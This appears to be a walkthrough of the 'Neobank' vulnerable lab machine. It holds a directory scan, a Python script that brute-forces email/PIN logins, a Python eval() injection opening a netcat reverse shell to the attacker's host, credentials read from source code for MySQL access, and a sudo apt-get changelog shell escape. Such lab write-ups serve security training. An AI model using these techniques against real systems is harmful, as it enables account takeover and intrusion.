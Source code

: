 # Neobank 

## Directory Scan
```console
┌──(alienum㉿kali)-[~]
└─$ gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
/login
/logout
/otp
/qr
/withdraw
/email_list
```
## Retreive emails
Under the /email_list you can retrieve the emails

## Brute force
```console
┌──(alienum㉿kali)-[~]
└─$ cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt

┌──(alienum㉿kali)-[~]
└─$ nano neobank-bf.py
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
             
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
~~~~~~~~~~~~~~~~~~~
Credentials found!!
~~~~~~~~~~~~~~~~~~~
[+] Username : z***@neobank.vln
[+] Password : 2*****
```
## OTP google authenticator
scan the qrcode and insert the otp code

## Exploit eval() python function 
```console
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```
## MySQL enumeration find banker credentials
```console
cat /var/www/html/main.py
banker:neobank1
mysql -u banker -pneobank1
use bank;
select * from system;
banker:a********
```
## GTFObins
```console
sudo apt-get changelog apt
!/bin/sh
```

